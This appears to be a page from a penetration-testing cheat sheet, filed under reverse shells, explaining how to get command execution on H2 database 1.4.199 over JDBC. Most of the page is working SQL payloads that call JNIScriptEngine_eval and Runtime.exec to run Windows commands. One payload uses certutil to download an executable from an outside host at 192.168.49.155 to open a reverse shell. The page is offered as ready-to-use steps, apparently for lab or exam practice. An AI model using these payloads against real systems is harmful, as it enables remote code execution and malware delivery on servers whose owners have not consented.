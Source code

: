 ```yaml
---
title: H2 (JDBC)
parent: Shell (Reverse/Others)
layout: default
nav_order: 13
---
```


Only for H2.1.4.199

1. Follow instructions in exploit 49384.
2. To gain access to more command use `cmd /c dir` (replacing dir with command you want).
3. Full example:\
`CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir").getInputStream()).useDelimiter("\Z").next()');`
4. Can then use certutil to grab reverse shell. (must run WITHOUT cmd /c):\
`CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -f -urlcache http://192.168.49.155/pg80_64.exe pg80.exe").getInputStream()).useDelimiter("\Z").next()');`
5. In summary just try with or without `cmd /c`, also use double slash (`\\`) for directory. Sometimes file put in C:\Windows\Temp\ cannot be located using dir. Just try to run anyway.
